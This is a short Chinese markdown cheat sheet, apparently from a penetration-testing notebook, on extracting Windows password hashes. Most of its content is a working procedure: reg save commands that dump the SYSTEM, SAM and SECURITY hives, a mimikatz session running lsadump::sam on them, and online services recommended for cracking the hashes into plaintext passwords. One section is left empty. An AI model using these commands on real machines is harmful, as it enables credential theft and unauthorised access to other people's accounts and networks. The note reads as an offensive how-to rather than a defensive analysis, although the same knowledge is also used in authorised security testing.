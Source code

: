 # Windows Hash提取

## 0x00 基础知识

- LM Hash Windows Vista和Windows Server 2008以前的系统还会使用
- NTLM Hash
- Net-NTLM Hash 网络环境下NTLM认证中的hash

[Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D)
## 0x01 离线获取Hash

### 1.目标主机注册表导出文件
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
reg save hklm\security security.hive
```
### 2. 通过mimikatz导出Hash

```
$ ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /sam:sam.hive /system:system.hive
```

### 3. 破解Hash获取明文密码
 
 见0x03 破解 Hash 
## 0x02 主机获取Hash

## 0x03 破解 Hash 
>强力推荐
- [Ophcrack 在线破解](https://www.objectif-securite.ch/en/ophcrack)

- [Cmd5在线破解](https://www.cmd5.com/)

## Ref

- https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D 
